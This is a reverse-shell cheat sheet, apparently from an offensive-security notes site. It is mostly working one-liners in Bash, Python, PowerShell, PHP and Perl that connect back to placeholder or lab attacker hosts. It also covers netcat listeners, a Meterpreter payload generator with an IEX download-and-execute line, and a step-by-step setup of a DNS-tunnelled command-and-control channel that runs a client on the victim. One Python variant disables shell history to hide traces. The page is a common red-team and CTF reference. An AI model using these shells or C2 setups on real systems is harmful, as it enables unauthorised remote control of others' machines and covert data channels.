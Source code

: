 # Reverse Shells

* [https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/](https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/)




## Bash

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```




## Python



### IPv4

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```



### IPv6

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```




## PowerShell

* [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
* [https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11](https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11)
* [https://github.com/tihanyin/PSSW100AVB/blob/main/ReverseShell_2022_03.ps1](https://github.com/tihanyin/PSSW100AVB/blob/main/ReverseShell_2022_03.ps1)

#1:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.13.37",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

#2:

```powershell
$socket = new-object System.Net.Sockets.TcpClient("10.10.13.37",1337);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
    $writer.Flush();
    $read = $null;
    $res = ""
    while($stream.DataAvailable -or $read -eq $null) {
        $read = $stream.Read($buffer, 0, 1024)
    }
    $out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
    if(!$out.equals("exit")){
        $args = "";
        if($out.IndexOf(' ') -gt -1){
            $args = $out.substring($out.IndexOf(' ')+1);
            $out = $out.substring(0,$out.IndexOf(' '));
            if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
            }
            else{
                $res = (&"$out" "$args") | out-string;
            }
        }
        else{
            $res = (&"$out") | out-string;
        }
        if($res -ne $null){
        $writer.WriteLine($res)
    }
    }
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()

#$a=New-Object System.Net.Sockets.TcpClient("10.10.13.37",1337);if($a -eq $null){exit 1}$b=$a.GetStream();$c=New-Object System.IO.StreamWriter($b);$d=New-Object System.Byte[] 1024;$e=New-Object System.Text.AsciiEncoding;do{$c.Flush();$f=$null;$g="";while($b.DataAvailable -or $f -eq $null) {$f=$b.Read($d,0,1024)}$h=$e.GetString($d,0,$f).Replace("`r`n","").Replace("`n","");if(!$h.equals("exit")){$i="";if($h.IndexOf(" ") -gt -1){$i=$h.Substring($h.IndexOf(" ")+1);$h=$h.Substring(0,$h.IndexOf(" "));if($i.Split(" ").Length -gt 1){$k=New-Object System.Diagnostics.ProcessStartInfo;$k.FileName="cmd.exe";$k.RedirectStandardError=$true;$k.RedirectStandardOutput=$true;$k.UseShellExecute=$false;$k.Arguments="/c $h $i";$p=New-Object System.Diagnostics.Process;$p.StartInfo=$k;$p.Start()|Out-Null;$p.WaitForExit();$l=$p.StandardOutput.ReadToEnd();$m=$p.StandardError.ReadToEnd();if($p.ExitCode -ne 0){$g=$m}else{$g=$l}}else{$g=(&"$h" "$i")|Out-String;}}else{$g=(&"$h")|Out-String;}if($g -ne $null){$c.WriteLine($g)}}}while(!$h.equals("exit"))$c.close();$a.close();$b.Dispose()
```




## PHP

```php
<?php echo passthru("/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"); ?>
```




## Perl

```
use Socket;$i="<LHOST>";$p=<LPORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```




## Netcat

* [https://blog.ikuamike.io/posts/2021/netcat/](https://blog.ikuamike.io/posts/2021/netcat/)

```
$ {nc.tradentional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```




## Meterpreter



### unicorn

* [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

```
$ python3 unicorn.py windows/meterpreter/reverse_https 10.10.13.37 443
$ sudo msfconsole -qr unicorn.rc
PS > IEX(New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```




## Listeners

```
$ {nc.tradentional|nc|ncat|netcat} [-6] -lvnp <LPORT>
```




## Transport over DNS

* [https://xakep.ru/2018/09/07/dns-tunneling/](https://xakep.ru/2018/09/07/dns-tunneling/)
* [https://habr.com/ru/post/345056/](https://habr.com/ru/post/345056/)
* [https://habr.com/ru/company/group-ib/blog/496712/](https://habr.com/ru/company/group-ib/blog/496712/)



### dnscat2

* [https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)
* [https://github.com/lukebaggett/dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)



### chashell

* [https://github.com/sysdream/chashell](https://github.com/sysdream/chashell)

Buy and configure DNS (e.g., `c2cdomain.net`):

```
A * -> <IP>
A @ -> <IP>
A chashell -> <IP>
NS c -> chashell.c2cdomain.net
```

Get dependencies:

```
$ export GOPATH=/home/snovvcrash/code/go
$ export PATH=$GOPATH:$GOPATH/bin:$PATH
$ go get -v -u github.com/golang/dep/cmd/dep
$ go get github.com/mitchellh/gox
$ cd $GOPATH/src/github.com/golang/dep
$ go install ./...
```

Clone chashell into `$GOPATH/src` (otherwise, `dep` will error out):

```
$ git clone https://github.com/sysdream/chashell $GOPATH/src/chashell
$ cd $GOPATH/src/chashell
```

Build binaries:

```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.c2cdomain.net
$ make build-all OSARCH="linux/amd64"
```

Run server on Attacker:

```
$ cd release/
$ sudo systemctl stop systemd-resolved
$ sudo ./chaserv_linux_amd64
```

Run client on Victim:

```
$ ./chashell_linux_amd64
```




## Tools

* [https://www.revshells.com/](https://www.revshells.com/)
* [https://itm4n.github.io/tools/](https://itm4n.github.io/tools/)



### VbRev

* [https://github.com/VbScrub/VbRev](https://github.com/VbScrub/VbRev)



### xc

* [https://github.com/xct/xc](https://github.com/xct/xc)

Listen:

```
$ rlwrap ./xc -l -p 443
```

Launch:

```
PS > Start-Process -NoNewWindow .\xc.exe "10.10.13.38 443"
```
